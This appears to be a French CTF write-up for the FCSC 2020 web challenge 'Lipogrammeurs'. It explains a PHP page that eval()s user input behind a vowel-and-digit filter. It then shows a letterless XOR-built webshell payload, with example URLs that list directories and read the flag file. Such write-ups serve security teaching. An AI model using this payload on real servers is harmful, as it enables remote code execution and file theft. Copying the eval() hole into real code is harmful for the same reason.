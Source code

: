 <p align="center">
  <a href="" rel="noopener">
 <img style="width:50px;" src="https://france-cybersecurity-challenge.fr/files/abecee1bc8e9f22344226e697e672a7d/navbar_logo.png" alt="Project logo"></a>
</p>
<h1 align="center">Lipogrammeurs</h1>

<div align="center">

[![CTF](https://img.shields.io/badge/FCSC-2020-red.svg)](https://france-cybersecurity-challenge.fr/)
[![CTF](https://img.shields.io/badge/Catégorie-Web-yellow.svg)](#)
[![CTF](https://img.shields.io/badge/web-blue.svg)](#)
[![CTF](https://img.shields.io/badge/lipogramme-blue.svg)](#)

</div>

---

## 📝 Table des matières

- [Enoncé](#problem_statement)
- [Sources](#idea)

## 🧐 Enoncé <a name = "problem_statement"></a>

_&laquo; Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ? &raquo;_

## ⚙️ Explication du fonctionnement <a name = "problem_statement"></a>

Lorsque l'on arrive en premier lieu sur le challenge, on nous renvoie directement le code source - supposé - de la page. Nous n'avons en réalité pas moyen de savoir si la page ne contient pas de code PHP supplémentaire, étant donné qu'il s'agit probablement d'un ```echo()``` ou fonction similaire.

```php
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

Le code retourné a le fonctionnement suivant :<br>
1. Un paramètre ```$_GET['code']``` est appelé dans l'URL,
2. puis il est tronqué à une longueur maximale de 250 caractères via une fonction ```substr()```
3. ensuite, la chaîne d'entrée est filtrée par une expression régulière qui empêche l'utilisation de _voyelles_ et de _chiffres (0 à 9)_.
4. Si la chaîne ne contient aucun caractère interdit, elle est exécutée au travers de la fonction ```eval()```. <br/>Cette fonction est en réalité **très** intéressante car elle exécute la chaîne qu'on lui donne comme code PHP.
5. Si la chaîne entrée à travers ```eval()``` contient des erreurs de syntaxe, le script renvoie également une erreur.
6. Si aucun paramètre ```$_GET['code']``` n'est appelé, le script appelle la fonction ```show_source()``` qui est supposée afficher la source du script.

Ce script constitue en réalité ce que l'on appelle un _webshell_, c'est à dire un accès dérobé au shell du serveur hôte via le web. En effet, la fonction ```system()```de PHP permet d'exécuter n'importe quelle commande sur le serveur hôte.

C'est donc dans cette direction qu'il faut explorer.

## 🎯 Résolution du challenge <a name = "problem_statement"></a>

Après quelques recherches, on tombe sur un script très intéressant hébergé sur GitHub Gists :
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
// $_GET[_]($_GET[__]);


<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__](${$_}[___]));
// http://3.1.8.39:10002/uploads/blablabla123-shell.php?_=print_r&__=scandir&___=..
//http://3.1.8.39:10002/blablabla123-shell.php?_=print_r&__=file_get_contents&___=../flag.php
```

Comme on peut le remarquer, ce _webshell_ a l'énorme avantage d'injecter un paramètre dépourvu de lettres et chiffres, ce qui permet d'outrepasser le filtre voyelles/chiffres. De plus, le travail nous a déjà été bien simplifié, car des exemples d'utilisation sont donnés;
* le premier utilise la fonction ```scandir()``` qui va permettre d'explorer l'arborescence des fichiers du serveur web et de retrouver le fichier contenant le flag.
* le second va permettre de retourner le contenu du fichier lorsque son nom/emplacement seront connus.



## ⛓️ Sources <a name = "limitations"></a>

CyberChef : https://gchq.github.io/CyberChef/<br>
DocPHP : https://www.php.net/manual/fr/<br>
PHP Mini Webshell without Letters and Numbers (40 characters) :
https://gist.github.com/bilabar/aa25879110d29fce9b153d283b2642ed
